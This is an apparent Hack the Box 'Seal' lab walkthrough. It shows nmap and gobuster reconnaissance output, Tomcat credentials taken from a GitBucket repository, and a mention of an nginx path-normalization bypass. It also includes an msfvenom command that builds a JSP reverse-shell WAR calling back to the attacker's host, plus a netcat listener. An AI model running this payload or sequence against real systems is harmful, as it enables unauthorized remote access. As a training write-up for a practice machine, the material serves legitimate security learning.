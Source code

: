 # Hack the Box - Seal

```CSS
Machine IP: 10.10.10.250 - Linux
Difficulty: Medium
Category: OSCP Preparation
```

# Reconnaissance
  - Scan for open TCP ports on target machine.
  - Perform service and version detection of open ports.

## Port Scan (TCP)
```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.250 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.250
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
443/tcp  open  https
8080/tcp open  http-proxy
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/10%OT=22%CT=1%CU=31966%PV=Y%DS=2%DC=I%G=Y%TM=645BC96
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST1
OS:1NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.26 seconds
```

## Service and Version Detection
```CSS
▶ nmap -sC -sV -p 22,43,8080 10.10.10.250 -oN services.nmap

Nmap scan report for 10.10.10.250                                                    
Host is up (0.17s latency).                                                          
                                                                                     
PORT     STATE  SERVICE    VERSION                                                   
22/tcp   open   ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                       
|   3072 4b894739673d07315e3f4c27411ff967 (RSA)                                      
|   256 04a74f399565c5b08dd5492ed8440036 (ECDSA)                          
|_  256 b45e8393c54249de7125927123b18554 (ED25519)                                   
43/tcp   closed whois                                                                
8080/tcp open   http-proxy                                                           
|_http-title: Site doesn't have a title (text/html;charset=utf-8).                   
| http-auth:                                                                         
| HTTP/1.1 401 Unauthorized\x0D                                                      
|_  Server returned status 401 but no WWW-Authenticate header.                       
| fingerprint-strings:
|   FourOhFourRequest:                                                               
|     HTTP/1.1 401 Unauthorized
|     Date: Wed, 10 May 2023 16:45:21 GMT                                                                                                                                 
|     Set-Cookie: JSESSIONID=node04mlz2fwh9s4j119zpsysuahz32.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   GetRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Wed, 10 May 2023 16:45:19 GMT
|     Set-Cookie: JSESSIONID=node01rozln8ivln9dyfyvnqefnxwz0.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Wed, 10 May 2023 16:45:20 GMT
|     Set-Cookie: JSESSIONID=node07vji2je08bptb0xv5r688l1m1.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version                                                                                                                                        
|     Content-Type: text/html;charset=iso-8859-1                                                                                                                          
|     Content-Length: 58                                                                                                                                                  
|     Connection: close                                                                                                                                                   
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   Socks4: 
|     HTTP/1.1 400 Illegal character CNTL=0x4
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x4</pre>
|   Socks5: 
|     HTTP/1.1 400 Illegal character CNTL=0x5
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x5</pre>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service
 :
SF-Port8080-TCP:V=7.93%I=7%D=5/10%Time=645BCA37%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,F4,"HTTP/1\.1\x20401\x20Unauthorized\r\nDate:\x20Wed,\x2010\x2
SF:0May\x202023\x2016:45:19\x20GMT\r\nSet-Cookie:\x20JSESSIONID=node01rozl
SF:n8ivln9dyfyvnqefnxwz0\.node0;\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu
SF:,\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent-Type:\x20text/html
SF:;charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,107,"HTT
SF:P/1\.1\x20200\x20OK\r\nDate:\x20Wed,\x2010\x20May\x202023\x2016:45:20\x
SF:20GMT\r\nSet-Cookie:\x20JSESSIONID=node07vji2je08bptb0xv5r688l1m1\.node
SF:0;\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x200
SF:0:00:00\x20GMT\r\nContent-Type:\x20text/html;charset=utf-8\r\nAllow:\x2
SF:0GET,HEAD,POST,OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,
SF:AD,"HTTP/1\.1\x20505\x20Unknown\x20Version\r\nContent-Type:\x20text/htm
SF:l;charset=iso-8859-1\r\nContent-Length:\x2058\r\nConnection:\x20close\r
SF:\n\r\n<h1>Bad\x20Message\x20505</h1><pre>reason:\x20Unknown\x20Version<
SF:/pre>")%r(FourOhFourRequest,F4,"HTTP/1\.1\x20401\x20Unauthorized\r\nDat
SF:e:\x20Wed,\x2010\x20May\x202023\x2016:45:21\x20GMT\r\nSet-Cookie:\x20JS
SF:ESSIONID=node04mlz2fwh9s4j119zpsysuahz32\.node0;\x20Path=/;\x20HttpOnly
SF:\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent
SF:-Type:\x20text/html;charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(S
SF:ocks5,C3,"HTTP/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x5\r\nConte
SF:nt-Type:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nCo
SF:nnection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x2
SF:0Illegal\x20character\x20CNTL=0x5</pre>")%r(Socks4,C3,"HTTP/1\.1\x20400
SF:\x20Illegal\x20character\x20CNTL=0x4\r\nContent-Type:\x20text/html;char
SF:set=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n
SF:<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20C
SF:NTL=0x4</pre>")%r(RPCCheck,C7,"HTTP/1\.1\x20400\x20Illegal\x20character
SF:\x20OTEXT=0x80\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nCont
SF:ent-Length:\x2071\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x20
SF:400</h1><pre>reason:\x20Illegal\x20character\x20OTEXT=0x80</pre>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.80 seconds
```

---

# Enumeration
## Port 22 - SSH
  - The OpenSSH version that is running is not associated with any critical vulnerabilities, so it’s unlikely to gain initial access through this port, unless some valid credentials are found.

## Port 80 HTTP
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4ff70451-a9c1-4926-ae42-8bc7911217b0)

## Port 8080 HTTP Proxy
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/67431678-77dc-4620-80e9-211c14b6ce97)

---

# Content Discovery
  - Brute-force common directories and files.
```CSS
▶ gobuster dir --url https://10.10.10.250 --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --threads 25 --no-tls-validation
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/79031ee3-0750-4358-9168-c143f1af023d)

```CSS
▶ gobuster dir --url https://10.10.10.250/admin --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --threads 25 --no-tls-validation
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a544a2ee-1518-480a-aa86-58c46c4780b0)

```CSS
▶ gobuster dir --url https://10.10.10.250/host-manager --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --threads 25 --no-tls-validation
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/76aff29e-a205-4b61-a672-4d3a4e38ad50)

```CSS
▶ gobuster dir --url https://10.10.10.250/manager --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --threads 25 --no-tls-validation
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/afd4b4d6-d29a-495d-bc6f-734ae67e3d2e)

---

# Git Bucket
  - Logging in with Git Bucket default credentials failed.
  - Git Bucket default credentials: `root:root`
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ceaddd26-18cb-4181-a557-fb557966d987)

  - Register a new account on Git Bucket.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/3291eb50-58eb-4360-abbb-95612af30e28)

  - Login with the account credentials.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/3299e3ed-1b97-49ff-a439-2cc01bdac7b8)

  - Read permission on two repositories. The infra repository reveals ansible templates to configure tomcat.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4bdb75a0-c92e-4bf3-bd5b-1a72c5b9a1d7)

  - Developer Comments.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a7dc4650-7d37-42ea-a77c-530f4cd55c0f)

  - Tomcat Credentials.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/621c388b-8930-4405-a3f9-16617938e594)
Credentials: `tomacat:42MrHBf*z8{Z%`

## Nginx Path Normalization

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/2e3a3cc4-9461-4747-9b1d-7fe2669ab38e)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/82189bdc-339e-46c6-9bcf-0f2fdc4fec29)

```CSS
▶ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=31337 -f war > shell.war
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/eb471ef1-f23b-4b56-a8fc-424a06a194f9)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/7d47d7d9-fe6e-4123-8817-0a2b81465e48)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/9caf8966-f200-4f8f-bedf-0203debb43fe)

  - Bypassing 403 forbidden.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/6fbb10f9-5126-44ee-a20c-5b36595068bc)

  - Shell Upload.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/6ac092b4-8ad5-4a96-b1bc-b15f2c9b094f)

  - Invoke the Shell.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/6aee2032-26d2-4e8d-a0d9-eab44c125987)

  - Start `netcat` listener for reverse shell.
```CSS
▶ nc -nlvvp 31337
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/04bd1f02-9798-44e7-a151-60df96e5c108)

  - Shell upgrade
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b9665c52-eb61-4342-ba7f-5ff73bfeb985)

- 
